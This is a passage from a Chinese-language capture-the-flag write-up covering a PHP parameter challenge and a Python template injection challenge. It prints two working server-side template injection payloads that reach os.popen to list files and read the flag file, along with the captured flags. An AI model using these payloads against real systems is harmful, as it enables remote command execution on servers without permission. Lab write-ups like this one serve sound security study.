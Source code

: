传入了一个hello参数，尝试赋一个值

![image-20201202123903006](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202123903006.png)

发现这个hello是有回显的，所以说不定这里可以命令执行然后回显到浏览器

尝试构造payload，首先要构造hello这个参数我们必须先让我们传进的page参数为真才行

![image-20201202124110669](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202124110669.png)

发现疑似flag文件，使用show\_source\(\)函数查看该文件

![image-20201202124237632](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202124237632.png)

得到flag

```text
ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}
```

## 7、Web\_python\_template\_injection

![image-20201202124612687](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202124612687.png)

环境提示python模板注入

![image-20201202125051402](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202125051402.png)

尝试看看内部{}中的代码是否被执行

![image-20201202125410514](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202125410514.png)

确实被执行了

调用os模块的popen执行ls打印所有文件

```text
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen("ls").read()}}
```

![image-20201202125231518](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202125231518.png)

cat fl4g

```text
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen("cat fl4g").read()}}
```

![image-20201202131934513](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202131934513.png)

得到flag

```text
ctf{f22b6844-5169-4054-b2a0-d95b9361cb57}
```

